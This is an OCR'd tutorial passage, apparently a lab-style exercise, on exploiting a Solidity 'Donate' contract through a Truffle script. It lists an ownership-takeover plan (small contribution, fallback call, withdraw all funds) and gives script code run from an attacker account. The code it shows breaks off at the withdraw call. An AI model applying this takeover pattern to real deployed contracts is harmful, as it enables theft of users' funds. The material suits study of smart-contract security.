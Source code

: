 
According to Truffle's docs `http://truffleframework.com/docs/getting_started/scripts#file-structure` 
on external scripts, we can export a function that takes a callback as an argument. Moreover, that callback needs to be executed at the end of the script, like this:

```javascript
const DonateContract = artifacts.require('Donate')


async function execute(callback) { 
        callback()

}        

module.exports = execute
```

nothing wonderfull yet. This is all Truffle-related stuff, let's call it the our exploit

-1 let make a small contribution less than 0.001 ether
-2 run the fallback function to become owner
-3 withdraw all of fund

# Exploit The Contract

In the script, once we find the attacker account, we then create an instance of an already deployed contract using the deployed() method. The instance, named contract, can be used to call all public functions defined in the Donate contract's ABI, including the getters for the public variables.

by default, our contracts are deployed using the first account provided by Truffle `(web3.eth.accounts[0])`, we are going to suppose that web3.eth.accounts[0] is the victim account. Our badboy account will be, in most cases, `web3.eth.accounts[1]`.
if we try to run withdraw function  with badboy account you will face error telling you that you are not authorized to call this function.



```javascript

const DonateContract = artifacts.require('Donate')

async function execute(callback) { 

    // get attacker address
    let badBoy = web3.eth.accounts[1]
    console.log(`badBoy address: ${badBoy}`)

    let contract = await DonateContract.deployed()

    console.log('withdraw all fund now with badboy account')
    let response = await contract.withdraw({
        from: web3.eth.accounts[1]
    })
}

```
